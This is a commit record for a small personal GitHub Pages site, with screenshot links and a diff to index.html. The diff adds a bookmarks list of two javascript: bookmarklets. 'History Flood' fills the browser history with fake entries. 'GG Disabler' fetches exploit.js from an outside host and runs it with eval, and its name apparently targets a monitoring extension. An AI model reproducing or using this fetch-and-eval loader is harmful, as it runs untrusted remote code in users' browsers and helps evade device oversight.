

Before and after one commit to ninjasean56/ninjasean56, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,15 @@
 <!DOCTYPE html>
 <html>
 <body>
-<h1>Hello World</h1>
-<p>I'm hosted with GitHub Pages.</p>
+<p>Hola 💀💀💀</p>
+
+<p>Bookmarks:</p>
+
+<ul>
+  <li><a href="javascript:var num=prompt(&quot;How Times Do You Want This Page To Show Up In your History?\nMade%20By:%20Sean%22);done=false;x=window.location.href;for%20(var%20i=1;%20i%3C=num;%20i++){history.pushState(0,%200,%20i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert(%22History%20Flooding%20Successful!\n%20%22+window.location.href+%22%20\nNow%20Appears%20In%20Your%20History%20%22+num+(num==1?%22%20time.%22:%22%20Times.%20\nMade%20By:%20Sean%22))})">History Flood</a></li>
+  <li><a href="javascript:fetch(&quot;https://compactcow.com/ltbeef/exploit.js&quot;).then(data=&gt;{data.text().then(text=&gt;{eval(text)})});)">GG Disabler</a></li>
+</ul>
+
+<p>Links:</p>
 </body>
 </html>
```
